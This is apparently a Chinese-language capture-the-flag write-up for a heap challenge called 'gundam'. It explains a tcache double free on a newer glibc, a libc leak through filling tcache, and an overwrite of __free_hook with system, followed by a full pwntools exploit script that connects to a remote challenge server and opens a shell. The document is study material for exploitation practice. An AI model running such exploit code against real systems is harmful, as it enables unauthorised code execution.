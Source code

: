 这题说真的学到新东西了

因为这题是新版本的libc，我还特地去弄了一个新的虚拟机装新的libc

然后用常规的方法去打，发现怎么样都leak不出libc的地址，最多也只能leak出堆中的地址

后面发现堆开始的会分配一个大小为0x248的堆，然后free掉某个堆之后，地址就会出现在这里

然后free掉多个同样大小的堆之后，就会像fastbin一样用一个单向链表连接起来

但是试了一下，double free之后，居然能malloc到任意地址......这个真的有点....

有了任意内存写，但是还是找不到leak出libc的办法.....

后面团队里面一个dalao跟我说了这是tcache，然后有tcache的bin是有数量限制的，过了一定数量就会用原来的main arena

这样就可以leak出libc的地址

有了libc的地址，再加上任意内存读写，基本啥骚操作都能弄出来了

```
from pwn import *

debug=0
context.log_level='debug'
e=ELF('./libc.so')
if debug:
    p=process('gundam',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('47.75.37.114', 9999)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def build(name,tp):
    se('1\n')
    ru('The name of gundam :')
    se(name)
    ru('The type of the gundam :')
    se(str(tp)+'\n')
    ru('choice : ')

def visit():
    se('2\n')
    data=ru('1 . ')
    ru('choice : ')
    return data

def destory(idx,wait=True):
    se('3\n')
    ru('Which gundam do you want to Destory:')
    se(str(idx)+'\n')
    if wait:
        ru('choice : ')

def blow_up():
    se('4\n')
    ru('choice : ')


for i in range(9):
    build('a',1)
for i in range(8):
    destory(i)
blow_up()
build('a',1)

for i in range(3):
    build('a',1)

data=visit()
t1=data.index("[0] :")+5
heap=u64(data[t1:t1+6]+'\x00\x00')-0x861

heap_libc=heap+0xb50

destory(0)
destory(0)  #double free

build(p64(heap_libc),1)
build('a',1)
build('a',1)


data=visit()
t2=data.index("[6] :")+5
libc=u64(data[t2:t2+6]+'\x00\x00')

base=libc-0x3DAC61

free_hook=base+e.symbols['__free_hook']
system=base+e.symbols['system']

print(hex(heap))
print(hex(base))

destory(2)
blow_up()

destory(1)
destory(1)



build(p64(free_hook),1)
build('/bin/sh',1)
build(p64(system),1)

destory(0,False)
print(hex(free_hook))

p.interactive()


```